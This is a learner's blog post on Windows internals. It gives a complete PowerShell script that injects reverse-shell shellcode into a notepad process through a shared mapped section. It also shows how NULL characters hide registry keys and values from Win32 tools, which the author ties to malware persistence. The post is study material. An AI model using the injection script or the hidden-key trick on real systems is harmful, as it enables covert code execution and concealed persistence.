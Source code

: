 ```yaml
---
title: Windows Security Internals - Part I - Examples
date: 2025-02-07 00:00:00 +/-0000
categories: [Guides, Windows Security Internals]
tags: []     # TAG names should always be lowercase
---
```


I started reading *Windows Security Internals* by James Forshaw to learn more about how Windows privilege escalation works. When I was first learning this stuff, I wasn't sure why certain things worked or didn't work. I was learning the basic Windows privilege escalation techniques used on the OSCP: DLL/exe hijacking, token abuse, PrintSpoofer and potato exploits, etc. Now that I'm going back and actually learning how this stuff works, it's a lot easier to understand. I'll eventually post my full notes here once I'm done with the book. In the meantime, this post is about some examples I came up with after reading the first part.

Part I is an overview of how Windows works, covering the Windows NT kernel, system calls, and user-mode APIs. The author wrote the `NtObjectManger` powershell module, which lets you use dotnet to make system calls in powershell. I previously did all my experiments with the Win32 API in C, and being able to use powershell instead has made the learning process go faster.

I noticed two interesting things in the first part: `Section` memory objects, and inserting null characters into registry keys.

***
**Section Objects and Process Injection with Mapped Sections**

A `Section` object reserves a region of memory in the kernel, which can be backed by a file or just memory space. They can be used to read/write a file as if it was stored in memory, or to share memory between processes. Processes can access this memory by mapping a *view* of the section into their virtual memory space. 

You can see right away how this can be used for remote process injection:
1. Create a new `Section` object in the kernel
2. Map the section to a local process and a remote process
3. Write shellcode to the local process' view of the section
4. Since the memory is shared between processes, the memory containing the shellcode is accessible to the remote process
5. Start a new thread in the remote process at the base address of the remote process' view of the section

My powershell script that demonstrates this technique:
```powershell
Import-Module NtObjectManager

#MSFVenom reverse tcp shell
[Byte[]] $buf = <shellcode>

#Create a new notepad process
$proc = New-Win32Process -CommandLine "notepad.exe"

#Create a new section
$section = New-NtSection -Size 4096 -Protection ExecuteReadWrite

#Map the section to the current process and the remote notepad process
$localmap = Add-NtSection -Section $section -Protection ReadWrite -Process $(Get-NtProcess -pid $PID)
$remotemap = Add-NtSection -Section $section -Protection ExecuteReadWrite -Process $proc

#Write shellcode to the local mapped section
Write-NtVirtualMemory -Address $localmap.BaseAddress -Data $buf

#Show where our sections are mapped
Get-NtVirtualMemory $localmap.BaseAddress
Get-NtVirtualMemory $remotemap.BaseAddress -Process $proc

#Create a new thread to execute the shellcode
$thread = New-NtThread -StartRoutine $remotemap.BaseAddress -Process $proc

```

When we run this script, notepad pops up and we get a reverse shell:
![](assets/img/1wsip.png)


***

**Hidden Registry Keys**

The native Windows APIs uses unicode strings which can contain NULL characters. The Win32 API uses C-style strings which are terminated by NULL characters. This means that we can manipulate entries in the registry using NULL characters with the native API, which won't be correctly handled if they are queried with the Win32 API. This is used in some malware, where a Run key is set using NULL characters to autorun a payload for presistence. Whatever keys we set will not be shown by `reg query` or `Get-ItemProperty`. 

This script creates a new registry key and sets a hidden value:
```powershell
$key = New-NtKey -Win32Path "HKCU\`0hidden"
Set-NtKeyValue -Key $key -Name "`0invisible" -String "hidden value"
Get-Item "NtKeyUser:\`0hidden"
Get-NtKeyValue $key
```

Using regedit, we can see that a blank folder is visible, which gives us an error message when clicked on:
![](assets/img/2wsip.png)


